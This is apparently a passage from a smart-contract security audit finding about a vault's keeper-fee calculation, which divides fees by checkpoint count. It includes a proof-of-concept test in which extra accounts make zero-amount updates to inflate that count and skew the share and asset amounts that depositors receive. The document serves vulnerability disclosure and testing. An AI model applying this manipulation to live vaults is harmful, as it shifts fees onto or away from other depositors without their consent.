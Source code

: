 ```solidity
...
// Checkpoint library
// toAssetsLocal / toSharesLocal calls _withoutKeeperLocal to calculate keeper fees:
...
    function _withoutKeeperLocal(Checkpoint memory self, UFixed6 amount) private pure returns (UFixed6) {
        UFixed6 keeperPer = self.count == 0 ? UFixed6Lib.ZERO : self.keeper.div(UFixed6Lib.from(self.count));
        return _withoutKeeper(amount, keeperPer);
    }
```

Also notice that in `processLocal` the only thing which keeper fees influence are deposits and redemptions, but not claims.

## Proof of concept

The scenario above is demonstrated in the test, add this to Vault.test.ts:
```solidity
it('inflate checkpoint count', async () => {
    const settlementFee = parse6decimal('10.00')
    const marketParameter = { ...(await market.parameter()) }
    marketParameter.settlementFee = settlementFee
    await market.connect(owner).updateParameter(marketParameter)
    const btcMarketParameter = { ...(await btcMarket.parameter()) }
    btcMarketParameter.settlementFee = settlementFee
    await btcMarket.connect(owner).updateParameter(btcMarketParameter)

    const deposit = parse6decimal('10000')
    await vault.connect(user).update(user.address, deposit, 0, 0)
    await updateOracle()
    await vault.settle(user.address)

    const deposit2 = parse6decimal('10000')
    await vault.connect(user2).update(user2.address, deposit2, 0, 0)

    // inflate checkpoint.count
    await vault.connect(btcUser1).update(btcUser1.address, 0, 0, 0)
    await vault.connect(btcUser2).update(btcUser2.address, 0, 0, 0)

    await updateOracle()
    await vault.connect(user2).settle(user2.address)

    const checkpoint2 = await vault.checkpoints(3)
    console.log("checkpoint count = " + checkpoint2.count)

    var account = await vault.accounts(user.address);
    var assets = await vault.convertToAssets(account.shares);
    console.log("User shares:" + account.shares + " assets: " + assets);
    var account = await vault.accounts(user2.address);
    var assets = await vault.convertToAssets(account.shares);
    console.log("User2 shares:" + account.shares + " assets: " + assets);
})
```
